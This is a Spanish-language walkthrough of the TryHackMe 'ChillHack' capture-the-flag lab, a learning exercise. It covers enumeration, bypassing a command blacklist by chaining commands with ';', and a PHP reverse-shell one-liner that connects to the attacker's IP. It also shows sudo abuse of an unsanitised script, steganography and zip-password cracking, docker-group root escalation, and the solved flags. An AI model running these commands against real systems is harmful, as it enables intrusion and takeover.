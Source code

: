 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía, el descubrimiento de contraseñas por fuerza bruta y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-steghide-FF5200?style=for-the-badge&logo=steghide&logoColor=white" />
  <img src="https://img.shields.io/badge/-unzip-000000?style=for-the-badge&logo=unzip&logoColor=white" />
  <img src="https://img.shields.io/badge/-zip2john-EBAF00?style=for-the-badge&logo=zip2john&logoColor=white" />
  <img src="https://img.shields.io/badge/-john-F4B942?style=for-the-badge&logo=john&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Obtener una *shell* a partir de un *script*.
- Crear un servidor con *python3*.
- Obtener información oculta en imágenes.
- Descomprimir archivos.
- Crackear contraseñas.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*, *Python3*, *Steghide*,  *Unzip*, *Zip2john*, *John*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.

El primer paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además, se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible acceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 7.6p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.49*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerto 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos el cual tiene una *blacklist* por medio de la cual está filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando paalbras, cambiando caracteres por el signo de interrogació, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: *Anurodh told me that there is some filtering on strings being put in the command -- Apaar*.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así que antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverseshell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra el archivo oculto '.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la que quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueb el usuario alcanzado y su id.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

Ahora ya se tienen los suficientes permisos para leer el archivo 'local.txt' (/home/apaar) donde se encuentra la primera de las *flags*.

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files' en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el módulo *http.server*, de **Python3**. Se indica el puerto en el que se hospedará el servidor y desde el navegador se puede comprobar la creación del servidor y la existencia de la imagen y el resto de archivos del directorio en cuestión.

<code> python3 -m http.server 8000</code>

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)

Desde la máquina atacante se procede a descargar el *jpg*, indicando la dirección del recurso. Seguidamente se extrae la información de la imagen con la herramienta **Steghide**, la cual vuelca los datos en el archivo 'backup.zip'. Este se puede descomprimir con la herramienta **unzip** pero está protegido con contraseña, por lo que será necesario encontrar esta primero. Inicialmente se saca el *hash* del archivo con el binario **zip2john** y después se trabajará con este.

<code>wget http://10.10.118.151:8000/hacker-with-laptop_23-2147985341.jpg</code>

<code>steghide extract -sf hacker-with-laptop_23-2147985341.jpg </code>

<code>unzip backup.zip</code>

<code>zip2john backup.zip > pwd</code>

![Captura de pantalla 2025-04-13 215809](https://github.com/user-attachments/assets/0a35f730-e470-4fd8-954f-b27e4078ad1d)

Con **John** se prueban las diferentes palabras de la lista 'rockyou.txt' con el archivo 'pwd' que contiene el *hash* antes obtenido. Finalmente, la herramiensta encuentra la contraseña siendo esta 'pass1word'. Ahora ya se puede descomprimir el *zip* indicándole la *password* encontrada con el cual conseguimos el archivo 'source_code.php'. 

<code>john --wordlist=/usr/share/wordlists/rockyou.txt pwd</code>

![Captura de pantalla 2025-04-13 220330](https://github.com/user-attachments/assets/3652c4fd-c63c-444b-9d21-7608617a8926)

En el código se puede ver como en una sentencia *if* iguala una contraseña con su forma en base64 para entrar dentro de la condición. Por lo que se intentará decodificar tal *password* con el siguiente comando.

<code>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d</code>

![Captura de pantalla 2025-04-13 220539](https://github.com/user-attachments/assets/3a1d4338-44cc-40d6-909c-a95dc6a3773c)

Una vez obtenida la contraseña (*!d0ntKn0wmYp@ssw0rd*), se prueba con el usuario 'anurodh' y se pivota de nuevo de usuario. Además se comprueba que este pertenece al grupo *docker*, por lo que será útil para la escalada de privilegios. Esto es así porque este grupo otorga prácticamente permisos de administrador (*root*), puesto que el *daemon* de *Docker* tiene acceso completo al sistema. Así que cualquiera que esté en ese grupo podría, indirectamente, hacer cosas como *root*.

Por lo que se pretenden ver las imágenes del *Docker*, que son como plantillas para crear contenedores. De las dos existentes nos quedamos con la más reciente *Apline*. Con esto se puede ir a la página [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) para *bypasear* el binario *Docker* y realizar la escalada de privilegios.

<code>docker images</code>

<code>docker run -v /:/mnt --rm -it alpine chroot /mnt sh</code>

Finalmente, se ha alcanzado el usuario *root* y solo queda dirigirse a su directorio y obtener la *flag* del archivo 'proof.txt'.

![Captura de pantalla 2025-04-13 221157](https://github.com/user-attachments/assets/3a5ccc6e-22a7-44e0-8cdd-bec5a8c2c76b)

**Flag:{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
